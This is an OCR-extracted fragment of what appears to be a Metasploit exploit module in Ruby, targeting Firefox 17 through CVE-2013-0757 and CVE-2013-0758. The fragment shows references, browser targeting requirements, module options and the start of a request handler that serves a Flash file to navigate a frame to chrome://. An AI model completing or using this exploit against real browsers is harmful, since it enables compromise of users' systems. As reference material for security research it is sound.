 ['OSVDB', '89019'], # maps to CVE 2013-0757


['OSVDB', '89020'], # maps to CVE 2013-0758


['URL', 'http://www.mozilla.org/security/announce/2013/mfsa2013-15.html'],


['URL', 'https://bugzilla.mozilla.org/show_bug.cgi?id=813906']


],


'DisclosureDate' => 'Jan 08 2013',


'BrowserRequirements' => {


:source => 'script',


:ua_name => HttpClients::FF,


:ua_ver => /17\..*/,


:flash => /[\d.]+/


}


))





register_options(


[


OptString.new('CONTENT', [ false, "Content to display inside the HTML <body>.", '' ] ),


OptBool.new('DEBUG_JS', [false, "Display some alert()'s for debugging the payload.", false])


], Auxiliary::Timed)





end





def on_request_exploit(cli, request, info)


if request.uri =~ /\.swf$/


# send Flash .swf for navigating the frame to chrome://
